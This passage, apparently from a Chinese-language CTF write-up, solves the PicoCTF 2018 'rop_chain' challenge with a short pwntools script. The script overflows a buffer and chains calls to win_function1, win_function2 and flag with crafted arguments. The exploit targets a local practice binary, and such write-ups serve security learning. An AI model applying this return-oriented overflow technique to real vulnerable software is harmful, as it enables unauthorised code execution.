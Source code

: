3.`win1 & win2`存在于`.bss`段上,但是可以利用`win_function1 & win_function2`两个函数构造

<img src="../assets/img/old_imgs/image-20231223202105353.png" alt="image-20231223202105353"  />

> win1

<img src="../assets/img/old_imgs/image-20231223202117211.png" alt="image-20231223202117211" style="zoom:67%;" />

> win2

```python
from pwn import *
#context.log_level = 'debug'
#io = gdb.debug('./PicoCTF_2018_rop_chain','break *080485CB')
io = process('./PicoCTF_2018_rop_chain')
offset = 0x18+4
elf = ELF('./PicoCTF_2018_rop_chain')
payload1 = b'A'*offset+p32(elf.sym['win_function1'])+p32(elf.sym['win_function2'])+p32(elf.sym['flag'])+p32(0xBAAAAAAD)+p32(0xDEADBAAD)
#溢出转跳到`win_function1`初始化win1,再到`win_function2`同时传入覆盖`win_function2`的参数a,最后跳转到`flag`函数相同操作
io.sendlineafter(b'Enter your input>',payload1)
io.interactive()
```

# pwn2_sctf_2016
